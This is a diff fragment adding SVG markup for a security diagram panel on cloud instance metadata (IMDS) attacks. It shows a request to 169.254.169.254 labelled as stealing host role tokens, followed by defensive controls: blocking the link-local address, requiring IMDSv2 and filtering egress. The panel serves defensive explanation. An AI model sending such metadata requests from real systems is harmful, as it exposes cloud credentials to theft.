+       <rect width="280" height="162" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
+       <rect width="280" height="20" rx="3" fill="#f1f5f9" />
+       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">C. Instance Metadata Service (IMDS)</text>
+       <text x="8" y="32" font-size="7" fill="#475569">Targeting hypervisor host IAM credentials:</text>
+       <rect x="8" y="40" width="264" height="34" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
+       <text x="12" y="52" font-family="monospace" font-size="6.8" fill="#991b1b">GET http://169.254.169.254/latest/meta-data/</text>
+       <text x="12" y="66" font-family="monospace" font-size="6.8" fill="#7f1d1d">Steals host hypervisor role tokens</text>
+       <text x="8" y="88" font-size="7.2" font-weight="700" fill="#0f766e">Enforced Systems Control:</text>
+       <text x="8" y="102" font-size="7" fill="#334155">1. Link-local filter: Block 169.254.169.254/32</text>
+       <text x="8" y="114" font-size="7" fill="#334155">2. IMDSv2 mandatory: Hop limit = 1 prevents VM leap</text>
+       <text x="8" y="126" font-size="7" fill="#334155">3. Egress proxy: Whitelist destinations strictly</text>
+       <rect x="8" y="136" width="264" height="18" rx="2" fill="#f0fdf4" />
+       <text x="140" y="148" font-size="6.8" font-weight="700" fill="#166534" text-anchor="middle">Verdict: TCP Connection Refused</text>
    </g>
  </g>
</svg>
